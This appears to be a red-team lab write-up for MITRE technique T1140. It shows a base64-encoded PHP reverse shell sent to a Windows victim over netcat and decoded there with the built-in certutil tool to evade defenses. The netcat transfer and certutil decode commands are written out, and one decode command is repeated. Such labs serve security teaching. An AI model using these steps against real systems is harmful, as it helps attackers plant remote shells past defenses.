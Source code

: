```yaml
---
layout: post
title: "t1140 encode decode data with certutil"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1140-encode-decode-data-with-certutil/
---
```


---
layout: post
title: "t1140 encode decode data with certutil"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1140-encode-decode-data-with-certutil/
---

---
description: Defense Evasion
---

# Encode/Decode Data with Certutil

In this lab I will transfer a base64 encoded php reverse shell from my attacking machine to the victim machine via netcat and decode the data on the victim system using a native windows binary `certutil`.

## Execution

Preview of the content to be encoded on the attacking system:

![](../../.gitbook/assets/certutil-shellphp.png)

Sending the above shell as a base64 encoded string to the victim system \(victim is listening and waiting for the file with `nc -l 4444 > enc`\):

{% code title="attacker@local" %}
```csharp
base64 < shell.php.gif | nc 10.0.0.2 4444
```
{% endcode %}

Once the file is received on the victim, let's check its contents:

{% code title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode %}

![](../../.gitbook/assets/certutil-encoded.png)

Let's decode the data:

{% code title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode %}

Let's have a look at the contents of the file `dec` which now contains the base64 decoded shell:

![](../../.gitbook/assets/certutil-decoded.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1140" %}

@spotheplanet
